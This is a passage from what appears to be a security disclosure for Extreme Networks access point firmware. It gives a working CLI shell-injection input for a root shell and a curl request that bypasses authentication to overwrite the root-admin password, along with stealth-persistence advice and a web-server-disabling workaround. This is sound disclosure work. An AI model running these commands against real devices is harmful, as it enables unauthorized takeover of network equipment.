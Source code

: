 Further exploring the firmware we were looking for directly executed commands that could
be accessed from the CLI and found a shell injection in the `ssh-tunnel` functionality,
which normally seems to be used to grant Extreme Networks staff access to the AP for
debugging purposes.

The command `ssh-tunnel server <server> tunnel-port <port> user <user> password <password>`
is being used to fill in the following template:
`sshpass -p <password> ssh <user>@<server> -p <port> <command>`, with the command being
pre-defined. Unforunately the password is not being sanitized, so including a space
character allows overriding of the originally executed `ssh` command.

To open a root shell run the following CLI command:
`ssh-tunnel server 0 tunnel-port 8080 user admin password "a sh -c sh"` it will seem to
hang at first, that's because two commands are being executed but only the output of the
second command is printed, so simply enter `exit` and you should drop into a shell
spawned by the second execution.

## Full authentication bypass ([CVE-2025-27227](https://extreme-networks.my.site.com/ExtrArticleDetail?an=000123648))

Up to now everything needed admin access, but further looking into the webserver
files we found `/cmn/clientmodessidsubmit.php5`, which configures an AP to connect
to an SSID as a client, probably for use as a relay or something like that.

The script doesn't verify authentication at all, so it could probably be used to
disrupt operation as is. Much worse is that input given to the script is being used
in a configuration template without sanitization:

```
client-mode ssid "<ssid>" passphrase <key_type> <pwd>
```

Including a newline character allows overriding of basically any configuration,
including the root-admin password. An example attack setting the password to
`Hunter1234` looks like this:

```shell
curl -v -k -H 'Cookie: PHPSESSID=a' \
  'https://10.25.11.163/cmn/clientmodessidsubmit.php5' -o - \
  -F 'button=Connect' -F 'type=1' -F 'ssid=fnord' \
  -F 'pwd=foobar%0aadmin root-admin admin password Hunter1234%0a' \
  -F 'auth=8' -F 'wpa_sec=1' -F 'hidden_ssid=0' -F 'key_type=fnord'
```

For stealth a root exploit can then be used to persist access, followed by a restore of
the previous configuration including the old admin password.

As a workaround for older accesspoints or deployments using an on-site hive-manager
without any further support you can disable the web-server using
`no system web-server hive-UI enable` (also available using the Network Policy
configuration in XIQ/HiveManager).

We'd generally recommend disabling the web-server as it is not needed for
day-to-day operation and introduces a large attack surface.

## Timeline
